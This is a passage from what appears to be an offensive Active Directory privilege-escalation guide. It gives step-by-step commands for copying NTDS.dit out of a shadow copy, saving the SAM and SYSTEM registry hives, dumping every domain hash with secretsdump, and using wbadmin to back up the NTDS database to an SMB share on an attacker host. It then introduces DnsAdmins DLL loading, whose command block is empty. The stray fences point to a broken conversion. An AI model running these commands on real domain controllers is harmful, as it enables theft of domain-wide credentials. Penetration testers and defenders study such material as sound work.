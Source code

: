 ```
expose %cdrive% F:
end backup
exit
```
```
2. Copy `NTDS.dit` from the shadow copy:

```cmd
Copy-FileSeBackupPrivilege E:\Windows\NTDS\ntds.dit C:\Tools\ntds.dit
```
```
Alternatively, use `robocopy` for file copying:

```cmd
robocopy /B F:\Windows\NTDS .\ntds ntds.dit
```
```
3. Extract `SYSTEM` and `SAM` for hash retrieval:

```cmd
reg save HKLM\SYSTEM SYSTEM.SAV
reg save HKLM\SAM SAM.SAV
```
```
4. Retrieve all hashes from `NTDS.dit`:

```shell-session
secretsdump.py -ntds ntds.dit -system SYSTEM -hashes lmhash:nthash LOCAL
```
```
#### Using wbadmin.exe

1. Set up NTFS filesystem for SMB server on attacker machine and cache SMB credentials on the target machine.
2. Use `wbadmin.exe` for system backup and `NTDS.dit` extraction:
   ```cmd
   net use X: \\<AttackIP>\sharename /user:smbuser password
   echo "Y" | wbadmin start backup -backuptarget:\\<AttackIP>\sharename -include:c:\windows\ntds
   wbadmin get versions
   echo "Y" | wbadmin start recovery -version:<date-time> -itemtype:file -items:c:\windows\ntds\ntds.dit -recoverytarget:C:\ -notrestoreacl
   ```

For a practical demonstration, see [[https://www.youtube.com/watch?v=IfCysW0Od8w&t=2610s|DEMO VIDEO WITH IPPSEC]].

## DnsAdmins

Members of the **DnsAdmins** group can exploit their privileges to load an arbitrary DLL with SYSTEM privileges on a DNS server, often hosted on Domain Controllers. This capability allows for significant exploitation potential.

To list members of the DnsAdmins group, use:

```bash
Get-NetGroupMember -Identity "DnsAdmins" -Recurse
```
```
### Execute arbitrary DLL (CVE‑2021‑40469)

> [!NOTE]
> This vulnerability allows for the execution of arbitrary code with SYSTEM privileges in the DNS service (usually inside the DCs). This issue was fixed in 2021.

Members can make the DNS server load an arbitrary DLL (either locally or from a remote share) using commands such as:

```bash
```
